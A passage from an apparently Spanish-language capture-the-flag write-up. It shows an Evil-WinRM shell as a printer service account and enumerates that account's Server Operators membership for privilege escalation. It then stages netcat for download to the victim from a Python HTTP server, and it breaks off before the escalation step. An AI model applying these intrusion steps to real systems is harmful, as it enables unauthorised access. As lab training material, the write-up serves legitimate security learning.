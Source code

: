 			
			*Evil-WinRM* PS C:\Users\svc-printer\Desktop> 
			
			```
- ### Éscalacion de privilegios:
	- **Enumeracion para escalacion de privilegios:**
		```bash
		*Evil-WinRM* PS C:\Users\svc-printer\Desktop> net user svc-printer
		User name                    svc-printer
		Full Name                    SVCPrinter
		Comment                      Service Account for Printer
		Users comment
		Country/region code          000 (System Default)
		Account active               Yes
		Account expires              Never
		
		Password last set            5/26/2021 1:15:13 AM
		Password expires             Never
		Password changeable          5/27/2021 1:15:13 AM
		Password required            Yes
		User may change password     Yes
		
		Workstations allowed         All
		Logon script
		User profile
		Home directory
		Last logon                   5/26/2021 1:39:29 AM
		
		Logon hours allowed          All
		
		Local Group Memberships      *Print Operators      *Remote Management Use
									 *Server Operators
		Global Group memberships     *Domain Users
		The command completed successfully.
		```
	- **Elevacion con netcat:**
		- Se descarga netcat en la maquina atacante para luego descomprimir el .zip y montar con python un servidor http para luego poder descargarlo desde la maquina victima
			```bash
			──(kali㉿kali)-[~/Downloads]
			└─$ ls
			cacert.der  netcat-win32-1.11.zip
			┌──(kali㉿kali)-[~/Downloads]
			└─$ unzip netcat-win32-1.11.zip 
			Archive:  netcat-win32-1.11.zip
			  inflating: netcat-1.11/doexec.c    
			  inflating: netcat-1.11/generic.h   
			  inflating: netcat-1.11/getopt.c    
			  inflating: netcat-1.11/getopt.h    
			  inflating: netcat-1.11/hobbit.txt  
			  inflating: netcat-1.11/license.txt  
			  inflating: netcat-1.11/Makefile    
			  inflating: netcat-1.11/nc.exe      
			  inflating: netcat-1.11/nc64.exe    
			  inflating: netcat-1.11/netcat.c    
			  inflating: netcat-1.11/readme.txt  
			┌──(kali㉿kali)-[~/Downloads]
			└─$ python3 http.server 80
			python3: cant open file '/home/kali/Downloads/http.server': [Errno 2] No such file or directory
			┌──(kali㉿kali)-[~/Downloads]
			└─$ python3 -m http.server 80
			Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
			^C
			Keyboard interrupt received, exiting.
			┌──(kali㉿kali)-[~/Downloads]
			└─$ cd netcat-1.11         